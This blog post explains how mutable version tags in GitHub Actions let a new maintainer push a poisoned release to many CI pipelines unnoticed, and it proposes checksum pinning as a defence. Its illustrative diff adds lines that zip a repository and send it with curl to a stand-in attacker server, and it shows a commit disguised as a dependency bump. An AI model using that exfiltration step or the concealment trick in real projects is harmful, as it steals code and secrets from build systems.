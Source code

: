 ```yaml
---
date: 20240510
---
```


# GitHub Actions beg for a supply chain attack

When the GitHub Actions runner sees

```yaml
- name: Clone repository
  uses: actions/checkout@v4
```

it `git clone`s the `checkout` repository of the `actions` user/organization on
GitHub and then switches to the git tag named `v4`. The `actions` org is
maintained by GitHub staff, so we trust it to be secure and well-behaved.

Recently though, a cool new framework is taking off. It's called `foo`. Your
company decides to build a project with it and one of your tasks in the current
sprint is to set up a CI pipeline. Fortunately, the open-source community
delivers once again; you quickly discover that somebody has already created an
Action to make setup easy:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
```

Some time later `alice` stops maintaining the `setup-foo` action, but she wants
the Action to live on, so she appoints a new friendly person who's been around
the repo for a while and contributed a few PRs. That's how `malloy` becomes the
maintainer of `setup-foo`.

Some time later, `malloy` makes a new release of `setup-foo` with the following
code:

```diff
#!/usr/bin/env sh
echo "imagine there is more shell code here"
+zip -r nothing_really.zip .
+curl POST nothing_really.zip https://totally-legit-server.ru
echo "legit shell code"
echo "more legit shell code"
```

The change is introduced in a commit with message "bump deps" that removes 6969
and adds 2137 lines of code to many files, mostly `pubspec-lock.json`. Then
`malloy` releases this new version as `v2.1`:

```console
git commit -m "bump deps" && git push origin master
git tag v2.1
```

and then he moves the `v2` to reflect the point to `v2.1`, [**just like GitHub
recommends**][gh]:

```console
git tag --delete v2 # delete tag locally
git push origin :v2 # delete tag on the remote
git tag v2
git push --tags
```

It's Friday night. Hundreds of thousands of nightly builds run, in thousands of
repositories, including private ones.

No one notices for a few days.

---

My knowledge of the cybersecurity landscape is very basic, but I suppose a
solution could be for GitHub to deprecate the current way of using external
actions, and require us to provide a checksum:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
  sha256: ea3a03b4971eeb62730e1de238225cc4e6145f0eb50ad28b1379f2a2ee71e16e
```

The problem with the above is twofold:

- First and foremost, it no longer looks as sexy.
- Realistically, who checks the diff when bumping the dependencies?

---

I maintain the `subosito/flutter-action` (it should be named `setup-flutter`).
If you enjoyed the read, consider [sending me a few bucks for coffee][sponsor].
I pinky promise to never perform a supply chain attack on you.

[gh]: https://docs.github.com/en/actions/creating-actions/about-custom-actions#using-tags-for-release-management
[sponsor]: https://github.com/sponsors/bartekpacia
